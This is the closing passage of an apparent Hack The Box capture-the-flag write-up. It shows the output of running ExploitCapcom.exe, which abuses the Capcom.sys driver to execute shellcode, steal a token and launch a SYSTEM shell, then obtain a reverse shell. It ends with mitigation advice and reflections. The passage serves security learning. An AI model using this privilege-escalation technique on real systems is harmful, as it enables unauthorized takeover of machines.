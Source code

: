 And then we'll run the `ExploitCapcom` executable.

```powershell
> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000023E932F0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

Back on our Kali machine, we receive a reverse shell. Success! Let's grab the root flag.

![](/assets/img/posts/htb/07-2020-6/root-flag.png)

***

## Mitigation

- Documents shouldn't be named after a domain password. Especially if this password is currently being used, albeit expired.

- Audit the domain and its exposed information often. An active password in the description of an account is bad practice and is pretty readily exposed with a couple steps. This needs to be considered even more when that account has privileges that can be abused to achieve privilege escalation.

## Final Thoughts

Unique box, the path to SYSTEM was very print-centric and I learned a lot about configuration and usage of print services within a domain. I didn't enjoy finding the password as a filename, as that took entirely too long and was easy to miss. Overall, though, I learned a few neat tricks that feel realistic enough to save for later. Additionally, I took some time to look through the exploit source code, since it's so readily available, and learned some interesting things about how this service abuse works, I'd recommend doing the same.
